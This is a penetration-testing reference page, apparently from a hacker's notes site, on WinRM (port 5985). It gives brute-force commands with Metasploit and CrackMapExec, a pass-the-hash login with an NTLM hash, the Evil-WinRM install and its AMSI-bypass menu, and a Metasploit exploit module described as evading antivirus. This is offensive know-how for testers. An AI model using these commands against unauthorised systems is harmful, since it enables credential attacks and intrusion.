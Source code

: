 ```yaml
---
description: >-
  Windows Remote Management (WinRM) is the Microsoft implementation of
  WS-Management Protocol, a standard Simple Object Access Protocol (SOAP)-based.
  Usaully run on port 5985.
---
```


# 5985 - WinRM

## Info

WinRM uses the PSRemoting \(PowerShell remote\) to login to a host and execute commands.

You can enable WinRM by running `Enable-PSRemoting`

By default WinRM uses port 5985 for sending traffic over HTTP \(But it's still encrypted\), and port 5986 for SSL.

If you can make a HTTP request \(GET\) to `/wsman` and you get 200 back, WinRM  is enabled \(on port 5985\).



## Bruteforce login

### Metasploit

The winrm\_login module is a standard Metasploit login scanner to bruteforce passwords.

`use auxiliary/scanner/winrm/winrm_login`

### Crackmapexec

`cme winrm 192.168.1.0/24 -u userfile -p passwordfile`

## Login from windows

### Powershell

From a powershell command prompt:

```text
$pass = ConvertTo-SecureString 'supersecurepassword' -AsPlainText -Force 
$cred = New-Object System.Management.Automation.PSCredential ('ECORP.local\morph3', $pass) 
Invoke-Command -ComputerName DC -Credential $cred -ScriptBlock { whoami }
```

###  Winrs

Winrs.exe is a built-in command line tool that allows for the execution of remote commands over WinRm with a properly credentialed user.

```text
winrs -r:corp-dc "whoami /all"
```

###  **Winrm.cmd**

Command–line tool for system management is implemented in a Visual Basic Scripting Edition file \(Winrm.vbs\) written using the WinRM scripting API.

```text
winrm invoke Create wmicimv2/Win32_Process @{CommandLine="notepad"} -r:corp-dc
```

## Login from Linux

### Ruby Script

A quick and dirty script - use  [Alamot’s Ruby script](https://raw.githubusercontent.com/Alamot/code-snippets/master/winrm/winrm_shell.rb)  

Remember to change the username and password 

### Evil-WinRM

A comprehensive winrm shell

[https://github.com/Hackplayers/evil-winrm](https://github.com/Hackplayers/evil-winrm)

Install:

```text
sudo apt install ruby-dev build-essential
sudo gem install evil-winrm
```

You can also execute built in 'Bypass-AMSI', 'DLL-loader', 'Dount Loader' and 'Invoke Binary' straight from the shell by just typing `menu` in the shell

We can also load powershell scripts using the `-s` option and providing a folder with scripts, and then just calling the script from the shell \(example typing `powerup.ps` \)and then when we go to the menu it will show the functions from that script.

### CrackMapexec

Here’s an example of using CrackMapExec winrm method as local Administrator with a clear text password:

`crackmapexec winrm -d . -u Administrator -p 'pass123' -x "whoami" 192.168.204.183` 

Here’s example using a NTLM hash:

`crackmapexec winrm -d . -u Administrator -H aad3b435b51404eeaad3b435b51404ee:5fbc3d5fec8206a30f4b6c473d68ae76 -x "whoami" 192.168.204.183`

### Metasploit

WinRM Script Exec exploit module can obtain a shell without triggering an anti-virus solution, in certain cases. This module has two different payload delivery methods. Its primary delivery method is through the use of PowerShell 2.0. The module checks to see if PowerShell 2.0 is available on the system. It then tries to enable unrestricted script execution, an important step because PowerShell does not execute unsigned script files by default. If either of these checks fail, it will default to the VBS CmdStager payload method, otherwise it will use our Powershell 2.0 method.

`use exploit/windows/winrm/winrm_script_exec`

